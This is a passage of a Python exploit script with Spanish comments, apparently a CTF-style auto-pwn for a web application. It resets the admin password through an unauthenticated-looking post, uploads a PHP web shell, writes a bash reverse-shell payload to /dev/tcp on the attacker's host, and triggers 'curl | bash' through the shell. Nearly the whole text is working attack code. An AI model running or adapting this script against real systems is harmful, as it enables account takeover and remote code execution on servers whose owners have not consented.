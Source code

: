 ```py
       "password": f'{passw}'
     }

    r = s.post(urlLogin,data=post_data)

def changePass():

    post_data= {

        "password": "password",
        "id": "1"

    }
    r = s.post(urlIndex,data=post_data)
    print("[+] Contraseña de admin cambiada con éxito")

def loginadmin():

     post_data = { 
       "username": "admin",
       "password": "password"
     }

     r = s.post(urlLogin,data=post_data)


def upload():

        payload = """  <?php echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>"; ?> """ 

        files  = {'fileToUpload':('shell.phtml',payload)

            }
        print("[+] Subiendo archivo malicoso")
        r = s.post(urlAdmin,files=files)

def html_payload():

    with open("index.html","w") as file:
        Shebang = "#!/bin/bash\n"
        payload =f'bash -i >& /dev/tcp/{ipHost}/1234 0>&1'
        file.write(Shebang)
        file.write(payload)

def http_server():

    try:
        with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as so:
            so.bind(('localhost', 80))
            http_server = subprocess.Popen(["python3", "-m", "http.server", "80"])
    except OSError:
            print("\n[-] El puerto 80 se encuentra en uso, no se ha podido ejectuar el servidor")

def conection():

    ip = f'http://{ipVic}/upload/shell.phtml?cmd=curl%20{ipHost}%20|%20bash'
    r = s.get(ip)

if __name__ == '__main__':
    html_payload()
    http_server()
    sleep(1)
    register()
```